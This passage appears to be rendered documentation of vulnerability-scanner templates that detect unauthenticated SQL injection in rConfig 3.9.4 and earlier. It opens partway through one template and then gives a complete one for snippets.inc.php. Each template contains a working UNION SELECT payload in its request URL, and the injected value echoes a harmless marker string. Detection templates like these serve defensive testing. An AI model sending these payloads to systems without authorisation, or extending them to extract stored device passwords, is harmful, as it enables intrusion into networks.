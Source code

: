 - {{BaseURL}}/compliancepolicies.inc.php?search=True&searchColumn=policyName&searchOption=contains&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL+--+

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. [project-discovery]
- part - body

---

# rConfig \<=3.9.4 - SQL Injection

## Description

- rConfig 3.9.4 and prior has unauthenticated snippets.inc.php SQL injection. Because nodes' passwords are stored in cleartext by default, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/snippets.inc.php?search=True&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL,NULL+--+&searchColumn=snippetName&searchOption=contains

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. [project-discovery]
- part - body

---
